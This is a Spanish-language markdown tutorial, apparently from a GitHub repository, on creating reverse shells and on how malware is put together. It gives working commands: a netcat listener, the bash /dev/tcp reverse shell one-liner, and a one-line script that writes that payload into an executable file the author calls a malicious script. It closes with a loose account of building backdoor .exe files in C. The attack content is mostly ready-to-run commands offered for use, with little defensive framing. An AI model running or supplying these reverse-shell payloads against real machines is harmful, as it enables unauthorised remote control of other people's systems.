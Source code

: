 ```yaml
---
title: ReverShells & Malware
published: true
---
```




**Hola** hoy estaremos hablando de pentesting web, hablaremos sobre:
* **Creacion de ReverseShell comandos.**
* **Como estan compuestos los payloads exploits malware para windows.**
<br>

Vale primero que es una **ReverseShell**, lo explicara en un lenguaje brusco, una ReverShell es aquella que te permite
ejecutar comandos en una pc que no es tu dominio, es decir una ip el cual es la de la victima conectada a un hosts,
donde el hosts es tu equipo y te permite ejecucion remota de comandos.

[Puedes encontrar mas informacion aqui](https://www.google.com/search?q=ReverseShell&client=firefox-b-d&sxsrf=ALiCzsbKFcBidTADzj_JE7x-ksfIvwVUpA%3A1658946186694&ei=ioLhYpz9KeezqtsPnd-L8A0&ved=0ahUKEwic6qKR2Jn5AhXnmWoFHZ3vAt4Q4dUDCA0&uact=5&oq=ReverseShell&gs_lcp=Cgdnd3Mtd2l6EAMyBwgjELECECcyBwgjELECECcyBwgjELECECcyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEM6BwgAEEcQsAM6BAguECc6BAgjECc6CwgAEIAEELEDEIMBOgcIIxDqAhAnOggIABCxAxCDAToFCAAQgAQ6BAgAEAM6BggjECcQEzoKCAAQsQMQgwEQQzoKCC4QsQMQgwEQQzoGCAAQChBDOggIABCABBCxAzoICC4QgAQQsQM6BwgAEIAEEAo6BwgAEAoQywE6BQgAEMsBSgQIQRgASgQIRhgAUM4EWPkxYJkzaAhwAXgBgAHzAYgBrBqSAQYwLjE0LjSYAQCgAQGwAQrIAQjAAQE&sclient=gws-wiz).

-------
<br>

<h3><font color="yellow">[*]</font><font color="green"> Empezaremos con las pruebas de ReverseShell:</font></h3>
<font color="white">los programas a utilizar para la ReverseShell es bash, netcat, si usas linux es probable que ya los tengas instalados, 
en el caso contrario ejecuta:</font>
<br>

para linux:

```#!/bin/bash
sudo apt-get install netcat bash
```

para arch-linux:

```#!/bin/bash
pacman -Sy netcat bash
```

<br>

<h3><font color="yellow">[*]</font><font color="green"> Importante</font></h3>
<ph>Para estas bruebas si lo vas a hacer desde terminal, tienes que utilizar bash y no zsh por que te dara
errores, claro si quieres puedes probar de zsh y conocer los errores pero si quieres omitir esto, entonces solo ejecutas
el siguiente comando:</ph>

```#!/bin/bash
bash
```


<img src="screenshots/screen_bash.jpg">

<p><font color="yellow">[↑]</font> Como puede ver ya no estoy en la zsh entonces vamos a operar desde la terminal y luego operaremos de un script mailicioso.</p>
<br>

---
<br>
<p><font color="yellow">[*]</font> Empezamos poniendonos en escucha por el puerto 443 de netcat : </p>

```#!/bin/bash
nc -nvlp 443
```

<p><font color="yellow">[*]</font> Miramos que ip tenemos con el comando ifconfig :</p>
```#!/bin/bash
ifconfig
```
<img src="screenshots/ifconfig.jpg">

<p><font color="yellow">[↑]</font> Como pueden ver tengo la ip 127.0.0.1</p>
<br>
<p><font color="yellow">[*]</font> Ahora estando en escucha con netcat "nc -nlvp 443" en el puerto 443, vamos a entablarnos la coneccion desde otra
terminal por que la primera esta siendo ocupada por netcat entonces recuerden ejecutar el comando <b>bash</b> antes de entablar
la coneccion.</p>

<br>

<p><font color="yellow">[*]</font> Para entablar la coneccion hacemos el siguiente comando :</p>

```#!/bin/bash
bash
```
```#!/bin/bash
bash -i >& /dev/tcp/TU-IP/443/ 0>&1
```
<br>
<img src='screenshots/reverse.jpg'>

<p><font color="yellow">[↑]</font> Como pueden ver se me abrio un <b>ReverseShell</b> en la parte donde estaba en escucha con netcat.</p>

-------
<br>

<p><font color="yellow">[*]</font> Ahora pasaremos a desarrollar un <b>script malicioso en bash</b>, para ello aremos los mismo solo que esta ves el comando : 
`bash -i >& /dev/tcp/127.0.0.1/443 0>&1` ira dentro de un script sh para ello:</p>

<br>

```#!/bin/bash
touch exploit.sh && echo -e "bash -i &>/dev/tcp/$(cat /etc/hosts  | grep localhost | awk "NR==1" | cut -d " " -f "1-1")/443 0>&1" >> exploit.sh && chmod +x ./exploit.sh
```

<br>

<p><font color="yellow">[*]</font> Lo que desarrolle con ese comando fue hacer un script en bash para poder entablarme una coneccion pueden hacer <b>ls</b> y veran un
archivo llamado <b>exploit.sh</b> y de paso otorgarle permiso de ejecucion.</p>

No se ofusque si no entiende la anterior  linea de codigo simplemente lo que hace es hacer un archivo con `touch` darle permisos
con de ejecucion `chmod +x exploit.sh` y meterle adentro con `>>` el codigo :

```#!/bin/bash
   bash -i >& /dev/tcp/127.0.0.1 0>&1
```

<br>
<ph><font color="yellow">[*]</font> Pueden hacerlo manualmente con los siquientes comandos :</ph>

```#!/bin/bash
touch exploit.sh
```
```#!/bin/bash
chmod +x exploit.sh
```
Abren el archivo creado y coloca la siguiente linea : `bash -i >& /dev/tcp/SU-IP/443 0>&1`
<br>
<ph><font color="yellow">[*]</font> Una vez ya echo el archivo, pongace en escucha por el puerto <b>443</b> con netcat. Recuerde
que con el comando <q><b>nc -nlvp 443</b></q> nos poniamos en escucha por el puerto <b>433</b> este puerto puede ser modificado siempre
y cuando el puerto no este en uso, y claramente en el exploit o codigo ponga su respectivo puerto.ﾠ</ph>

ﾠ
<ph><font color="yellow">[*]</font> Nos ponemos en escucha con netcat</ph>
```#!/bin/bash
nc -nlvp 443
```
<br>
<p><font color="yellow">[*]</font> Y ejecutamos el archivo creado</p>
```#!/bin/bash
./exploit.sh
```

<img src="screenshots/final.jpg">

<p><font color="yellow">[↑]</font><b> Ahora como puden ver tengo una reverse shell</b></p>
<br>
<p><font color="yellow">[*]</font> Lo mas comodo de hacerlo por script es que se puden ejecutar el archivo teniendo la zsh y ahorrandose el comando `bash` y
ejecutar el archivo este se debe a la extension <b>"sh"</b> que tiene el archivo.</p>
<br>
<p>Vale ya sabes al menos cosas basicas de como entablarte un reverse shell luego voy a hacer que entiendas como
ganar acceso a un sistema.<b>http,https.</b></p>

---

<h3>¿Como estan desarollados los backdoor, exploits, payloads y malware?</h3>
<p>Te lo voy a explicar en un lenguaje brusco es decir a mi manera para que puedas entenderlo mas facil.<p>
<p>Un archivo malicioso ya puede ser malware exploit backdoor (Puerta tracera) payloads, no son mas que archivos en
binario que si recuerdas es lenguaje de la computadora que usa para poder operar. estos archivos puden ser
tambien escritos en hexadecimal para poder luego con un compilador pasarlo a binario.
para esto existen compiladores que te ayudan a crear este tipo de archivo el ultimo
exe que hice fue un archivo escrito en <b>C</b> ganabas acceso al sistema con solo abrirlo, pero este no es el caso de hablar de esto.
si quieres aprender a desarrollar un .exe debes aprender lenguaje c y con ayuda de una herramienta poder compilarlos
yo utilizaba code block, asi y poder luego crearte archivos .exe a tu favor.</p>

